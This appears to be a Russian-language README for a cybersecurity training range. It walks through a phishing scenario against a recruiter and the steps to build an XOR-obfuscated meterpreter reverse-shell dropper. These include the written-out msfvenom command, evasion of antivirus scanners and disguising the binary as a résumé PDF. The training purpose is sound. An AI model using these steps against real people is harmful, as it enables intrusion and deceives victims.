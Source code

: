 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды
![Image alt](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png)

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-36-50.png)

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-09.png)

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-19.png)

Так выглядят Отработавшие скрипты HR:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-34.png)

и hacker:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-47.png)

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-42-24.png)

Скопируем char buf[] и вставим это в программу encoder_beautiful.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-17.png)

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-40.png)


Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-50.png)

Запустим:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-00.png)

И получаем оболочку:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-08.png)

## Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-26.png)

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-35.png)

Результат сканирования написанного вируса на virustotal :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-55.png)


